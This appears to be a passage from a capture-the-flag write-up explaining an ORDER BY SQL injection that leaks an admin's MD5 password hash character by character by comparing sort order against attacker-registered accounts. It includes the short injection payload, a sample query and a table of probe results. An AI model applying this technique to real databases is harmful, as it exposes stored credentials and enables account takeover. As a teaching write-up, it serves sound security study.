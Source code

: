 okokok....we know we can sort stuff...but how the heck should i control the password, if the password is a md5 hash.

## Control the things you can
I can choose my own username. Adding 16 users with a predefined username `adminaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa` and `adminbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb` we can control what we sort after by concatenating username and password field.

```
mysql> select concat(username,pwd) from user where username like "admin%";
+-----------------------------------------------------------------------+
| concat(username,pwd)                                                  |
+-----------------------------------------------------------------------+
| admine89f3f6c01d96f9c363e224a66b8db77                                 |
| admin%e83f08e2f234e153c47ff99541e9a979                                |
| adminaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa098f6bcd4621d373cade4e832627b4f6 |
| adminbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb098f6bcd4621d373cade4e832627b4f6 |
+-----------------------------------------------------------------------+
```
Sorting, based on each character of the hash, we can determine which character it has to be, depending on the output position.

Using synonym functions and shortening the query a bit by using the `hp` field instead of `username`, we arrive at a pretty short injection:
```sql
select * from user order by mid(concat(hp,pwd),<n>);
```

Preeeeetty good, considering it has 23 characters. But remember, we are still a character over our challenge. The concat has to go!

## Using MD5 hashed passwords
What if we can only sort by password and use a password set by us to determine the character.

We know our password, therefore we know the hash, which is in the database. Sorting against a single character of the password and checking if admin is before or after our user, we can determine if the character of the admin password hash is before or after our hash.

Doing that for a lot of different passwords we probably will get every single one of the 16 characters in all of the 32 places.
For Example, if we look at character 32 of the admin hash, we can see the order changed at "7", therefore it has to be 7.
```
31:0:0
31:1:0
31:2:0
31:3:0
31:4:0
31:5:0
31:6:0
31:7:1
31:8:1
31:9:1
31:a:1
31:b:1
31:c:1
31:d:1
31:e:1
31:f:1
```
